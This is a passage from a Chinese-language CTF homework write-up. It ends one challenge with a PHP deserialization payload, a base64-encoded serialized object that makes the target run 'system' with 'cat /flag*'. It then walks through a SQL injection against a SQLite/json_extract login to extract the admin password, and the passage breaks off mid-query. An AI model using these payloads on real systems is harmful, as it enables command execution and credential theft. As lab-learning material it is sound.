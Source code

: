 3. Get flag
    ```bash!
    > $cat->spell = "cat /flag*"
    = "cat /flag*"
    
    > base64_encode(serialize($cat))
    = "TzozOiJDYXQiOjI6e3M6NToibWFnaWMiO086NjoiQ2FzdGVyIjoxOntzOjk6ImNhc3RfZnVuYyI7czo2OiJzeXN0ZW0iO31zOjU6InNwZWxsIjtzOjEwOiJjYXQgL2ZsYWcqIjt9"
    ```
    ![](https://i.imgur.com/c5Kq7c4.png)
## HW-Double Injection - FLAG1
Flag: `FLAG{sqlite_js0n_inject!on}`
### 解題流程與思路
這一題超爆難，應該可以預見被splitline凌虐，先看Dockerfile寫了甚麼，安裝的前置作業結束以後，分別把FLAG1和FLAG2的內容丟到`/flag1.txt`,`/flag2-{random string}.txt`中，並且執行db的初始化，也就是把FLAG1當成admin的密碼，接著比較重要的一步是把存取db內容的file(`/etc/db.sqlite3`)的權限設定read-only，這個操作後續會說明重要的地方，最後就是執行app.js

* 目標:
    我們的目標是想辦法把FLAG1拿到手，但看了一圈app.js也沒有任何想法，雖然我知道username的地方有SQLinjection的洞，但重要的是如何把密碼送到前端給我們
* 一開始的想法:
    送出post request後，會進到login route，並且db會對送來的username / password進行query，此時會發現有兩個if statement，當時我在想，只要滿足第一個if statement，他就會return並且render出原本的username，所以如果我可以創一個新的table或是insert原本的users table，並且把username設定成FLAG1，然後password設定已知，這樣的話就一定會進到第二個if statement，如此就算我不知道FLAG1是多少，他也會把username吐回來到前端
    ```javascript
    if (row.password === password) {
        if (password !== FLAG1) {
            const html = ejs.render(`<h1>Success!</h1>`, { username });
            return res.send(html);
        } else {
            const html = ejs.render(template, { username });
            return res.send(html);
        } 
    } else {
        return res.status(401).send('Unauthorized');
    }
    ```
    但這個做法有兩個原因導致無法實踐
    1. 前面講過，splitline把`/etc/db.sqlite3`設定成read-only，所以我們無法對他做任何修改
    2. 就算這個file可以修改，因為ejs.render的關係，如果給定的1st參數沒有format可以填入(就像第二個if出現的template)，他並不會把username一起render進去，雖然我也不確定為甚麼要這樣寫
* 比較可行的方式
    1. 逛了好幾圈app.js都沒有任何可以把username吐回前端的地方，代表這個思路應該不是可行的方式，此時可以想想看time based或是boolean based 這種blind injection，可能是個不錯的方式，雖然我也有嘗試union based，不過效果不大
    2. 因為是完全沒有任何filter的sql injection，所以我就直接在local的sqlite db browser下語法順便debug，當payload如下時:
        ```sql
        admin.username") as a,
          json_extract(users, '$.admin.username') as b,
          json_extract(users, '$.admin.password') as c
        FROM db -- #
        ```
        * 在server端會變成
            ```sql
            "$.admin.username\") as a,   json_extract(users, '$.admin.username') as b,   json_extract(users, '$.admin.password') as c FROM db -- # .password"
            ```
        * 完整的query會變成
            ```sql
            SELECT json_extract(users, "$.admin.username\") as a,   json_extract(users, '$.admin.username') as b,   json_extract(users, '$.admin.password') as c FROM db -- # .password") AS password FROM db
            ```
        * 則query到的data如下
            ```sql